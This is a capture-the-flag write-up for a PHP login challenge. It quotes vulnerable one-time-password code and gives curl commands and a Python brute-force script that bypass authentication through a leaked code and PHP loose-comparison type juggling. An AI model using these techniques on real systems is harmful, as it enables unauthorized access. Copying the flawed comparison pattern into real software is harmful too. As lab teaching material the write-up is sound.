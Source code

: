 # Web 500 - Sith Portal

## Challenge Text:

We have found the login page for the Sith. 

If we can get administrative access to this web server, the information we could gain would be invaluable. 

Our reconnaissance team was able to get some information that may be of use to you: 

1. The email addresses associated with the Sith's accounts use the domain: `@galacticempire.com`

2. Since there are not many Siths, the length of their email is pretty sort -only 3 characters
<pre>
ex: `aaa@galacticempire.com`
</pre>

3. Some of the code used to build the web server was recovered. We have attached the zip file. 

[Link to Sith's Portal](https://challenges.silicon-ctf.party/web500/index.php)

## Hints

1. Look at all authentcation mechanism

2.  [Check out this slide deck](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)

    Think about what variables you can control

## How To Solve: 

There were two ways to solve this problem.

The most straight-forward way is to look through the source code and find there are two ways of authenticating. 

1. Logging in 
2. Some kind of one-time-password that is generated from the hash of a couple values. Both ones controlled by the end user and ones pulled from the database. 

The function that handles the one-time-pass authenication can be found in the `auth.php` file. 

```php
 function check_one_time_login($uname,$otp,$id, $e){
     if (!check_email($e)){
         return false;
     }
     $code = substr(hash("md5",$id . retreive_hash($uname) . get_otp_date($uname) . $e),0,10);
     echo '<!--  authorization_code: '.$code . ' -->'; 
    if ($code == $otp){
        return true;
    }
    else{
        return false;
    }
 }
 ```

 Looking at this code, you can determine that the "authorization code" is printed out to the html when an attempt is made this way. 

 You can make a POST request to trigger this function like this: 

 `curl -X POST -d 'uname=admin&psw=test&otp=1&e=aaa@galacticempire.com&id=1' -H 'Content-Type: application/x-www-form-urlencoded' https://challenges.silicon-ctf.party/web500/index.php`

 In the response you will see:

 `<!--  authorization_code: 15c6ff07e2 --><h6>Incorrect OTP</h6>`

 You can then take this auth code, and feed it back into your request: 

 `curl -X POST -d 'uname=admin&psw=test&otp=15c6ff07e2&e=aaa@galacticempire.com&id=1' -H 'Content-Type: application/x-www-form-urlencoded' https://challenges.silicon-ctf.party/web500/index.php`

 This will give you the flag. 


 ---

 The second way to go about solving this challenge is through type juggling. 

 The idea being that you change the variables provided to function to generate the hash and eventually you will generate a hash value that `==` 0. In PHP, the loose comparison operation of `==` does not check type before doing comparisons. So with `==` you could have 

 ![ ](solution_images/type.png)

 The code to solve this problem this way is avaiable here: 

 ```python
 import requests
import string
import itertools
import time
import re
import hashlib

url = "https://challenges.silicon-ctf.party:443/web500/index.php"
count=1
for email in map(''.join, itertools.product(string.ascii_lowercase, repeat=int(3))):
    data = {"uname": "admin", "otp": "0", "e":f"{email}@galacticempire.com", "id":"1"}
    res=requests.post(url, data=data)
    if res.status_code != 200:
        print('\nRan into error - may need to slow down')
        break
    if "Incorrect OTP" in res.text:
        pos = res.text.find("authorization_code")
        auth_code=res.text[pos+20:pos+30]
        print(f'Attempt {email}@galacticempire.com ... Try #{count} ... auth code {auth_code}', end="\r")

    else:
        print(f'\n[*] Found bypass with: {email}@galacticempire.com')
        with open('out.html','w') as f:
            f.write(res.text)
        break
```
Running this, you will see that the hash generated with the email: `amk@galacticempire.com` is 0e39042609. Which in php makes the statement `0e39042609 == 0` equate to true. Thereby bypassing the authentication. 